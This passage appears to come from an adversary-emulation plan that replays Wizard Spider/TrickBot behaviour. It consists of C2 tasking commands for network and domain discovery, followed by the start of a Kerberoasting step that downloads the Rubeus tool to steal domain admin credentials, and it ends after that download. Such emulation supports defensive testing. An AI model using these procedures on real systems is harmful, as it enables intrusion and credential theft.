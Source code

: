 ```bash
# TrickBot obtains the IP address, location, and other relevant network information from the victim’s machine.[1][6][7]

./evalsC2client.py --set-task TrickBot-Implant "ipconfig /all"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "netstat -tan"
```

```bash
# Trickbot gathers domain specfic/client specfic information
./evalsC2client.py --set-task TrickBot-Implant "net config workstation >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "nltest /domain_trusts /all_trusts >> discovery.txt"
```

```bash
# TrickBot can identify the groups the user on a compromised host belongs to.[7]

./evalsC2client.py --set-task TrickBot-Implant "whoami /groups >> discovery.txt"
```

### :microscope: Cited Intelligence

* <https://www.securityartwork.es/wp-content/uploads/2017/07/Trickbot-report-S2-Grupo.pdf>
* <https://www.fidelissecurity.com/threatgeek/2016/10/trickbot-we-missed-you-dyre>
* <https://blog.trendmicro.com/trendlabs-security-intelligence/trickbot-shows-off-new-trick-password-grabber-module/>
* <https://www.cybereason.com/blog/dropping-anchor-from-a-trickbot-infection-to-the-discovery-of-the-anchor-malware>
* <https://eclypsium.com/wp-content/uploads/2020/12/TrickBot-Now-Offers-TrickBoot-Persist-Brick-Profit.pdf>

## Step 6 - Kerberoast the DC

:microphone: `Voice Track:`

In this step Wizard Spider performs Kerberoasting using a public tool, Rubeus.

Through Kerberoasting, Wizard Spider obtains encrypted credentials for the domain admin, vfleming.

Wizard Spider cracks the credentials offline for use in the next step.

*Note: offline cracking isn't performed due to time constraints; its also not in scope for the evaluation, so we skip the behavior.*

---

### ☣️ Procedures

```bash
# Wizard Spider has used Rubeus, MimiKatz Kerberos module, and the Invoke-Kerberoast cmdlet to steal AES hashes.[6][3][2][8]

./evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"
```
